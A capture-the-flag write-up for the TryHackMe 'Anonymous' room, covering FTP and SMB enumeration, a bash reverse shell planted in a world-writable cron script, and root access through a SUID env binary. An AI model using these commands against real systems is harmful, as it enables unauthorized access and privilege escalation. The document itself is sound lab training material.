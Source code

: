 ```yaml
---
title : "TryHackMe: Anonymous WriteUp"
author : Seif-Allah
description : "TryHackMe: WriteUp for the Anonymous room (Level: Medium)"
layout : post
category: CTF-WriteUp
tags : [THM,TryHackMe,WriteUp,Anonymous,Medium,CTF]
image : /assets/images/writeups/thm/anonymous/se.png
---
```



Welcome, Welcome, Welcome and Welcome ! 
This is a WriteUp for the [*anonymous*](https://tryhackme.com/room/anonymous) room.
I Had a lot of fun solving it and I absolutely recommend it. 

### Enumeration 
```
Discovered open port 21/tcp on 10.10.9.178
Discovered open port 445/tcp on 10.10.9.178
Discovered open port 139/tcp on 10.10.9.178
Discovered open port 22/tcp on 10.10.9.178
```
I couldn't answer the 4th question using the *nmap* output, so I started enumerating the *ftp* server which was allowing the *anonymous login*, and I found some files inside a directory called *scripts* : 
```
-rwxr-xrwx    1 1000     1000          314 Jun 04 19:24 clean.sh
-rw-rw-r--    1 1000     1000         1505 Oct 22 19:45 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12 03:50 to_do.txt
```
The *clean.sh* script looks like it deletes any files inside the /tmp directory : 
```bash
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```
The *removed_files.log* file was filled with : 
```
Running cleanup script:  nothing to delete
```
The *to_do.txt* was just telling that he needs to disable the ftp anonymous login. 


So after enumerating the *ftp* server, let's go back and check the *smb*; but before that let's explain what is *smb*: 
SMB stands for *sever message block*. It’s a protocol for sharing resources like files, printers, in general any resource which should be retrievable or made available by the server. It primarily runs on port 445 or port 139 depending on the server . It is actually natively available in windows, so windows users don’t need to configure anything extra as such besides basic setting up. In linux however ,it is a little different. To make it work for linux, you need to install a samba server because linux natively does not use SMB protocol.

First security flaw in the SMB is using default credentials or easily guessable and sometimes no authentication at all. 
The second flaw is the *samba server* which is extremely vulnerable. 


Ok ,so how do we enumerate when we find that in our nmap scan port 445 is open with samba server on. I only said samba server because linux is predominantly used by enterprises , around 75% to be precise. That being said, the process of enumeration for SMB is the same for both linux and windows with the exception that in linux , you have to check the samba version as well and check if it is vulnerable or not.

I ran *nmap -sC -p 139,445 -sV 10.10.192.43* to know which Samba version is running; 4.7.6
After that I ran *smbmap* to enumerate the Samba server. 
- - -
```bash
root@kali:~/Documents/thm/anonymous# smbmap -H 10.10.192.43 -R
[+] Finding open SMB ports....
[+] Guest SMB session established on 10.10.192.43...
[+] IP: 10.10.192.43:445        Name: 10.10.192.43                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        .                                                  
        dr--r--r--                0 Sun May 17 11:11:34 2020    .
        dr--r--r--                0 Thu May 14 01:59:10 2020    ..
        fr--r--r--            42663 Tue May 12 00:43:42 2020    corgo2.jpg
        fr--r--r--           265188 Tue May 12 00:43:42 2020    puppos.jpeg
        pics                                                    READ ONLY       My SMB Share Directory for Pics
        .\
        dr--r--r--                0 Sun May 17 11:11:34 2020    .
        dr--r--r--                0 Thu May 14 01:59:10 2020    ..
        -r--r--r--            42663 Tue May 12 00:43:42 2020    corgo2.jpg
        -r--r--r--           265188 Tue May 12 00:43:42 2020    puppos.jpeg
        IPC$                                                    NO ACCESS       IPC Service (anonymous server (Samba, Ubuntu))
```
- - - 
-H stands for host and -R stands for recursive switch to list all the files. 
Answering Question 4 : The share on the user's computer is **Pics**. 
Now you can actually retrieve the files using smbmap as well, I’ll leave that as an exercise. But what if we wanted a full fledged command prompt like a ftp prompt? That’s very much possible with smbclient. Lets try to do that.
- - -
```bash
root@kali:~/Documents/thm/anonymous# smbclient \\\\10.10.192.43\\pics
Enter WORKGROUP\seifallah's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun May 17 11:11:34 2020
  ..                                  D        0  Thu May 14 01:59:10 2020
  corgo2.jpg                          N    42663  Tue May 12 00:43:42 2020
  puppos.jpeg                         N   265188  Tue May 12 00:43:42 2020

                20508240 blocks of size 1024. 13306812 blocks available
```
- - -
I used *get* command to get the images, nothing special about some poppies pics. I used *binwalk* and *strings* but I found nothing. 

### User Flag

So I went back to the ftp server, and took a look again to *clean.sh* file, and since it's executable and writable, I used it to make a reverse shell; script from [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). 

- - - 
```bash
bash -i >& /dev/tcp/10.4.14.245/1234 0>&1
```
- - -
Then I started my local listener, upload the new file using *put* command and waited some seconds for the cronjob to be executed. 

- - -
```ftp 
ftp> put clean.sh 
local: clean.sh remote: clean.sh
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
359 bytes sent in 0.00 secs (4.5649 MB/s)
```
- - -
And boom! we got the reverse shell, easy ! 
- - - 
```bash
root@kali:~# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.4.14.245] from (UNKNOWN) [10.10.146.152] 55120
bash: cannot set terminal process group (1241): Inappropriate ioctl for device
bash: no job control in this shell
namelessone@anonymous:~$ 
```
- - -
I found the *user.txt* file in the powered directory. 
Now I need some PrivEsc. 

### PrivEsc
Using the hint : *This may require you to do some outside research* first thing came into my mind is SUID files 
- - -
```bash
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null 
```
- - -
looking at the output, we could use *env* file. 
Using [GTFObins](https://gtfobins.github.io/gtfobins/env/#suid), here's the result : 
- - -
```bash
namelessone@anonymous:~$ /usr/bin/env /bin/bash -p
/usr/bin/env /bin/bash -p
ls
pics
user.txt
whoami
root
```
- - -
Now easily run this command to get the *root.txt* file.
- - -
```bash
cat /root/root.txt
```
- - -

